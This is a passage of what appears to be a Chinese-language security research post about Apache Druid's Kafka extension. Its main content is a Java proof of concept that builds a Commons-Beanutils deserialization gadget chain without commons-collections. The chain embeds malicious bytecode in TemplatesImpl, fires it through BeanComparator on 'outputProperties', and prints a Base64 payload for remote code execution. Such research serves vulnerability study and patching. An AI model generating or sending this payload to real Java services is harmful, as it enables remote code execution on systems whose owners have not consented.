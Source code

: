 ![image-20230510101915089](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305101019166.png)

高版本打 commons-beanutils no cc payload

```java
package com.example.CommonsBeanutils;

import com.example.Reflection;
import com.example.Serialization;
import com.example.TemplatesEvilClass;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.util.Base64;
import java.util.PriorityQueue;

public class CommonsBeanutils1NoCC {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(TemplatesEvilClass.class.getName());
        byte[] code = clazz.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

//        BeanComparator beanComparator = new BeanComparator(null, Collections.reverseOrder());
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add("1");
        priorityQueue.add("1");

        beanComparator.setProperty("outputProperties");
        Reflection.setFieldValue(priorityQueue, "queue", new Object[]{templatesImpl, templatesImpl});
//        Serialization.test(priorityQueue);
        System.out.println(Base64.getEncoder().encodeToString(Serialization.serialize(priorityQueue)));
    }
}
```

![image-20230510103308571](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305101033658.png)

在 druid-kafka-indexing-service 这个 extension 中可以看到实例化 KafkaConsumer 的过程

![image-20230510102601034](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305101026112.png)

Apache Druid 26.0.0 更新了 kafka 依赖的版本

[https://github.com/apache/druid/blob/26.0.0/pom.xml#L79](https://github.com/apache/druid/blob/26.0.0/pom.xml#L79)

![image-20230510103615121](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305101036211.png)